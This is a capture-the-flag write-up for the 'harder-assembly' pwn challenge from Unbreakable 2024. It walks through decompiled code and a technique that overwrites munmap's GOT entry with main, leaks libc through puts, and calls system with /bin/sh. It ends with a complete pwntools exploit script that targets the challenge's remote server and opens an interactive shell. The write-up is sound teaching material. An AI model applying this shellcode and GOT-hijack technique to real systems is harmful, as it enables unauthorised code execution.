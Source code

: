 ```yaml
---
title: harder-assembly
date: 2024-04-07T14:23:28+03:00
description: Writeup for harder-assembly [Unbreakable 2024]
type: writeup
author: sunbather
tags:
- pwn
- asm
draft: false
---
```

___

## Challenge Description

I want the shell, but they want me to work for it, this time even harder :(

## Intuition

We receive a binary that essentially takes 15 bytes as input, checks if it contains the byte sequence ``0x0f05`` and then executes the input as shellcode. The sequence ``0x0f05`` corresponds to ``syscall``. Therefore, we can assume we have 15 bytes to get a shell, but we have to not use ``syscall`` as part of our shellcode. Somewhat cleaned-up main function below:

```c
void main(void)
{
  long lVar1;
  char *__buf;
  long in_FS_OFFSET;
  int i;
  char copy_buf [15];
  
  lVar1 = *(long *)(in_FS_OFFSET + 0x28);
  setup();
  copy_buf[0] = '\0';
  copy_buf[1] = '\0';
  copy_buf[2] = '\0';
  copy_buf[3] = '\0';
  copy_buf[4] = '\0';
  copy_buf[5] = '\0';
  copy_buf[6] = '\0';
  copy_buf[7] = '\0';
  copy_buf[8] = '\0';
  copy_buf[9] = '\0';
  copy_buf[10] = '\0';
  copy_buf[11] = '\0';
  copy_buf[12] = '\0';
  copy_buf[13] = '\0';
  copy_buf[14] = '\0';
  syscall();
  __buf = (char *)mmap((void *)0x0,0xf,7,0x22,0,0);
  read(0,__buf,0xf);
  copy_buf._0_8_ = *(undefined8 *)__buf;
  copy_buf._8_4_ = *(undefined4 *)(__buf + 8);
  copy_buf._12_2_ = *(undefined2 *)(__buf + 0xc);
  copy_buf[14] = __buf[0xe];
  for (i = 0; i < 0xf; i = i + 1) {
    if ((copy_buf[i] == '\x0f') && (copy_buf[i + 1] == '\x05')) {
      puts("You are not allowed to do that.");
      exit(0);
    }
  }
  (*(code *)__buf)();
  munmap(__buf,0xf);
  if (lVar1 == *(long *)(in_FS_OFFSET + 0x28)) {
    return;
  }
                    /* WARNING: Subroutine does not return */
  __stack_chk_fail();
}
```

Usually, when you're limited in your "moves" in pwn challenges, the first step you need to think about is how to remove the limit. Therefore, our initial idea was to somehow get more than 15 bytes of shellcode running. We cannot modify the amount we are allowed to input, because it is hardcoded in the .text data, which is not writeable... We notice a call to mprotect hidden in the assembly, that makes the GOT RWX, which gives us the great idea to hijack functions from GOT:

```
004012a0 6a 0a           PUSH       0xa
004012a2 58              POP        RAX
004012a3 68 00 40        PUSH       _GLOBAL_OFFSET_TABLE_                            = 00403e20
         40 00
004012a8 5f              POP        RDI
004012a9 68 00 10        PUSH       0x1000
         00 00
004012ae 5e              POP        RSI
004012af 6a 07           PUSH       0x7
004012b1 5a              POP        RDX
004012b2 0f 05           SYSCALL
```

We can see that the only functions called after our shellcode are *munmap* and *__stack_chk_fail*. We can't trigger the stack fail, as there is no buffer overflow, so we choose to overwrite *munmap* with the address for *main*. And ta-da, we have infinite[^inf] 15 bytes shellcodes to run by returning to main in a closed loop. We overwrite munmap like so:

```asm
mov edi, 0x00404038 ; move the GOT location for munmap in rdi
mov eax, 0x0040125b ; move main address in rax
mov [rdi], rax      ; write main address to where rdi points
nop                 ; prob not necessary just wanted to pad to 15
ret                 ; ret so we don't start executing random data
```

Notice the weird random use of the 4-bytes registers edi and eax. This is because some opcodes are smaller in width when using smaller registers. So it let me use them without going over the 15 bytes limit.

Now, we can easily leak libc by printing the puts GOT address with a jump to puts from PLT:

```asm
mov rax, 0x004010a0  ; load puts addr from PLT into rax
mov edi, 0x00404018  ; load puts addr from GOT into rdi
call rax             ; call plt_puts(got_puts)
ret
```

We get the libc version with [https://libc.blukat.me/](https://libc.blukat.me/) and get the offsets to ``system`` and ``/bin/sh``. Then we just set up rdi and call ``system`` directly. We use a trick for setting up rdi before calling ``system``, which is to load ``/bin/sh`` address into r12 one _main_ iteration before. We do this because ``mov rdi, ADDR`` is bigger in width than ``mov rdi, r12`` and r12 is not changed between _main_ calls. Last two shellcodes below:
```asm
trick:
	mov r12, BIN_SH_ADDR
	ret

call_system:
	mov rdi, r12
	mov rax, SYSTEM_ADDR
	jmp rax
```

Notice the jmp to rax instead of a call. Calling ``system`` instead of jumping to it will crash it because the stack is misaligned.

## Solution

```py
#!/usr/bin/env python3

from pwn import *

context.update(arch='amd64', os='linux')

# libc6_2.35-0ubuntu3.5_amd64
system_offset = -0x300e0
bin_sh_offset = 0x157828

def inspect_payload(payload):
    print(payload, len(payload))


# overwrite munmap with main
payload = asm(
    """
    mov edi, 0x00404038
    mov eax, 0x0040125b
    mov [rdi], rax
    nop
    ret
    """
)

# leak puts addr
leak_payload = asm(
    """
    mov rax, 0x004010a0
    mov edi, 0x00404018
    call rax
    ret
    """
)


#target = process("./harder")
target = remote("34.89.210.219", 31120)

inspect_payload(payload)
target.send(payload)

inspect_payload(leak_payload)
target.send(leak_payload)
leak = u64(target.recvline().strip() + b"\x00\x00")
print(f"PUTS LEAK:{hex(leak)}")

test = asm(f"mov r12, {leak+bin_sh_offset}\nret\n")
inspect_payload(test)
target.send(test)

pwn_time = asm(f"mov rdi, r12\nmov rax, {leak+system_offset}\njmp rax\n")
inspect_payload(pwn_time)
target.send(pwn_time)

target.interactive()
```

[^inf]: Okay fine not _infinite_... We can call it as long as we don't overflow the stack segment allocated in virtual memory. Check out [this video from Laurie Wired](https://youtu.be/_6zAAhkU_Iw?si=HvPFU2ys61S6meYU) to see what I mean.
